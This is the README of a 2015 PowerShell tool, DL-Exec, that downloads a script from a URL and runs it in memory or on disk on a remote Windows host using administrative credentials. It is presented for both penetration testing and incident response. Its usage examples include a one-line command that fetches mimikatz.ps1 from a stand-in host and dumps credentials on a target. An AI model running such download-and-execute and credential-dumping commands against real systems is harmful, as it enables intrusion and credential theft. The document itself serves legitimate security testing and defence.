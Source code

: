 		Download and Execute - PowerShell
		greg . foss [at] logrhythm . com
        @heinzarelli
		v0.1 -- July 2015

# [About]

DL-Exec is a simple script that leverages user-supplied parameters to download and execute a PowerShell script with arguments on a remote host. This script can even run without touching disk via the memoryExec parameter, or if run-time parameters are required, the script can be downloaded and executed on the host directly.

# [How To]

    Execute a PowerShell script on a remote host in-memory:
        
        PS C:\> dl-exec.ps1 -source http://some.site/mimikatz.ps1 -target 10.10.10.10 -memoryExec -arguments "Invoke-Mimikatz -DumpCreds"

    Execute a PowerShell script on a remote host with run-time parameters:

        PS C:\> dl-exec.ps1 -source http://some.site/honeyports.ps1 -target 10.10.10.10 -fileExec -arguments "-Ports 21,22"

# [Use Cases]

Offensive

    Execute various tools from frameworks like PowerSploit, Nishang, etc. on a remote host during penetration testing engagements.

    ![Mimikatz](/images/remote-mem-dl-exec.png)

Defensive

    Execute various tools from frameworks like Kansa, Honeyports, etc. on a remote host during Active Defense and/or Incident Response scenarios.

    ![Honeyports](/images/honeyport-fileexec.png)

Other
    
    No matter the script, it's possible to chain additional commands depending on the goal...

    ![Chaining](/images/command-chaining.png)

# [Parameter Breakdown]

    Script Source:

        -source     :   Define the script source

    Execution Parameters:

        -memoryExec :   Download and execute a script in memory
        -fileExec   :   Download a script and execute it from the host (leaves more traces)
        -arguments  :   Define the command-line arguments/switches/commands to be passed
                        (depending on how the script is executed)
        -target     :   Determine the remote host to extract data from

    Credentials - Required for remote execution and interaction with Active Directory

        -username   :   Administrative Username
        -password   :   Administrative Password

        If neither parameter is supplied, you will be prompted for credentials
        (FYI -- It's a bad idea to supply credentials at the command line, but there are times when it may be required)

# [License]

Copyright (c) 2015, Greg Foss
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
* Neither the name of Greg Foss, LogRhythm, LogRhythm Labs, nor the names of any of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.
* This script is not 'forensically sound' as it will write to the target host. Please keep this in mind.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY
DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND
ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
(INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS
SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.